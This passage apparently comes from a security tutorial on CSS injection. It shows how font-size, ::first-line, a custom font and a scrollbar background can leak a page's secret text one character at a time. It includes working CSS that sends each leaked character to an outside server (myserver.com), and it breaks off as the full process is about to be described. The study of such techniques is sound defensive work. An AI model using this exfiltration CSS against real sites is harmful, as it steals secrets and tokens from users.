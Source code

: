 ``` html
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
</html>
```

On the screen, only the character "C" will be visible. This is because we set the font size of all characters to 0 using `font-size: 0px`, and then adjust the font size of the first line to 30px using `div::first-line`. In other words, only the characters in the first line can be seen, and now the width of the div is only 20px, so only the first character will appear.

Next, we can use the trick we just learned to load different fonts. When I load the font "fa", since the character "A" does not appear on the screen, there will be no change. But when I load the font "fc", since the character "C" appears on the screen, it will be displayed using Comic Sans MS, which will increase the height and cause the scrollbar to appear. We can then use it to send a request, like this:

``` css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

So how do we keep using new font families? We can achieve this using CSS animation. You can continuously load different font families and specify different `--leak` variables using CSS animation.

In this way, we can know what the first character on the screen is.

Once we know the first character, we can increase the width of the div, for example, to 40px, so that it can accommodate two characters. Therefore, the first line will be the first two characters. Then, we can load different font families in the same way to leak the second character. The detailed process is as follows:
